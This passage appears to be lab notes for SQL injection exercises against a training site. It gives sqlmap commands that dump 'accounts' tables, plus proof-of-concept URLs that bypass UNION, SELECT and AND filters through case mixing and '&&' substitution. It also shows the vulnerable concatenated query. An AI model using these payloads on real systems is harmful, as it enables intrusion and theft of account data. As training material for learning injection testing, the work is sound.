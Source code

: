 ```bash
./sqlmap.py -u "http://hacker.site/2nd/upload.php?lab=2&payload=_" -p payload --technique=U --suffix=';#' --union-col=1 --dbms MySQL -D selfie4you02 -T accounts --dump --no-cast

```



### 3 - UNION SELECT 
- randomcase filter
- union-char it's not required here

```bash
Filters:
/UNION/
/SELECT/

Query:
$query = "SELECT views FROM attachments where filename='$entry';";


# PoC
http://hacker.site/2nd/upload.php?lab=3&payload=a%27%20UNIoN%20SeLECT%20%27PoC%20String%27;%20--%20-

# SQLMAP

./sqlmap.py -u 'http://hacker.site/2nd/upload.php?lab=3&payload=b' \
	-p payload --technique=U --suffix=';#' --dbms MySQL --union-col=1 --no-cast \
	--tamper=randomcase --banner

./sqlmap.py -u 'http://hacker.site/2nd/upload.php?lab=3&payload=b' \
	-p payload --technique=U --suffix=';#' --dbms MySQL --union-col=1 --no-cast \
	--tamper=randomcase -D selfie4you03 -T accounts --dump
```



### 4 - Boolean-based blind
- UNION filtered out
- symboliclogical filter (AND > && , OR > ||)

```bash
Filters:
/UNION/i
/\ AND\ /i

Query:
$query = "SELECT views FROM attachments where filename='$entry';";


# POCs

# (%26) == &
TRUE:	http://hacker.site/2nd/upload.php?lab=4&payload=01.jpg'+%26%26+'123'='123
FALSE:	http://hacker.site/2nd/upload.php?lab=4&payload=01.jpg'+%26%26+'123'='1

# using true (1) and false (0)booleans
# (%23) == #
TRUE:	http://hacker.site/2nd/upload.php?lab=4&payload=01.jpg'+%26%26+TRUE;%23
FALSE:	http://hacker.site/2nd/upload.php?lab=4&payload=01.jpg'+%26%26+FALSE;%23


# SQLMAP
./sqlmap.py -u 'http://hacker.site/2nd/upload.php?lab=4&payload=X' \
	-p payload --technique=B --dbms MySQL --no-cast --tamper=symboliclogical --threads=10 \
	--banner --flush-session
```